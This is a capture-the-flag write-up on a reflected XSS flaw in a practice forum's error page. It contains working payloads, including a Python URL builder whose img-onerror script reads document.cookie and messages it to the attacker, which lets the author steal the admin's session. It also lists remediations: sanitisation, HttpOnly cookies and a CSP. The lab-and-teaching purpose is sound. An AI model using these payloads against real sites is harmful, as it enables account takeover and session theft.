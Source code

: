 **Name:** flofriday

**Points:** Not yet graded

<hr>

# Obxssession

## Overview

The webapp [obxssession](https://obxssession.hackthe.space/) is a forum, for conspiracy theories. Users can also
log in and send each other messages.

## Vulnerability

There is a Reflected XSS vulnerability at the `/error` route, where the values of the query-parameters `m` and `p` get reflected without being properly sanitized first.

## Exploitation

During the exploitation I was on a Discord call with █████, █████ and █████, we explored the challenge together and discussed approaches created our payload on our own and never shared the flag.

First, I created an account on the target website and logged in (no email verification required). Suprised that the login worked at all and is not just a placeholder, we figured out that the website uses a cookie, which hasn't the `HttpOnly` flag set, which makes it possible to be readable from Javascript.

Once logged in I figured out that I could send myself messages, so I tried to trigger an XSS vulnerability by sending myself messages like the following, but they all were sanitized correctly.

```html
Is <b>this</b> bold?
```

After a **long** time, I found that the redacted forum post is on a special error page and that the error messages are not only inside the html page but also in the URL as query parameters. Upon that discovery, I tried the following url `https://obxssession.hackthe.space/error?m=%3Cscript%3Ealert(%22flotschi%22)%3C/script%3E&p=/theory/5`.

And the script worked, I finally had an working XSS vulnerability. The nex step is to steal the session cookie and automatically send ourself a message The former can be quite easily done with `document.cookie`.

To send messages we can open the [Network Monitor]((https://developer.mozilla.org/en-US/docs/Tools/Network_Monitor) in the [Firefox Developer Tools](https://developer.mozilla.org/en-US/docs/Tools). Now we send ourself a message from the WebUI, and then search for the last `POST` request in the log. Once we found the request we can rightclick -> Copy -> Copy as Fetch, and after some cleaning up (removing not necessary parameters) we receive the follwing  Javascript:

```javascript
await fetch("https://obxssession.hackthe.space/send", {
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: "receiver=9&subject=Hi+handsome&contents=Flotschi+was+here+",
  method: "POST",
});
```

Unfortunatly, we cannot just paste this script into the URL as, we cannot have `&` (ampersand signs) in our payload which means we first need to escape them properly. So for this I worte myself a little [Python](https://www.python.org/) script inside a [Jupyter Notebook](https://jupyter.org/).

```python
import urllib.parse
script = """
fetch("https://obxssession.hackthe.space/send", {
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: "receiver=9&subject=Hi+handsome&contents="+document.cookie,
  method: "POST",
});
"""
script = script.replace('\n', '').replace(' ', '')
url = "https://obxssession.hackthe.space/error?m=Flotschi&p=<script>"  + urllib.parse.quote(script) + "</script>"
print(url)
```

In this script, the generated url already steals the cookie.

After testing the above script and successfully sending myself my own cookie, I tried to send the URL to the admin, however upon submission I got the warning: "Whoa there, are you trying to hack somebody?".

Some messages later, I figured out that the `script` tag gets detected, so I tried to rewrite the exploit to use the `onerror` attribute of the `img` tag (This method works as we can set an empty src attribute on the image which will always cause the onerror to trigger).

Since the Javascript is now in an HTML attribute, we can no longer use  double quotes inside our Javascript as this would end the attribute, so we need to replace them with single quotes.

The final script now looked like this:

```python
import urllib.parse
script = """
fetch("https://obxssession.hackthe.space/send", {
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: "receiver=9&subject=Hi+handsome&contents="+document.cookie,
  method: "POST",
});
"""
script = script.replace('"', '\'').replace('\n', '').replace(' ', '')
url = 'https://obxssession.hackthe.space/error?m=Flotschi&p=<img%20src=""%20onerror="'  + urllib.parse.quote(script) + '">'
print(url)
```

Sending the resulting link to the admin, worked without any further warnin and almost instantly I received a response from the admin with their cookie. Next we go to [Firefox Devloper Tools]([Firefox Developer Tools | MDN](https://developer.mozilla.org/en-US/docs/Tools)) -> Storage -> Cookies and then copy the admins cookie into the value field.

After a quick reload we see in the header that we are now logged in as th admin and when we navigate to the profile page, we can see the flag.

## Solution

First, the best solution is to close the XSS vulnerability, this should be quite easy as the website already sanitizes the messeages properly and just has to apply the same technique to the query parameters of the error page.

Next, I would also set the `HttpOnly` flag on the session cookie, so that XSS vulnerabilities in the future cannot steal the cookie that easily (also I would set the `Secure` flag, this hasn't affected my ability to steal the cookie but is just best-practise).

We can further improve the security of the website by telling the browser that only Javascript files from the same origin are allowed, which does not include inline scripts.

```
Content-Security-Policy: script-src 'self';
```
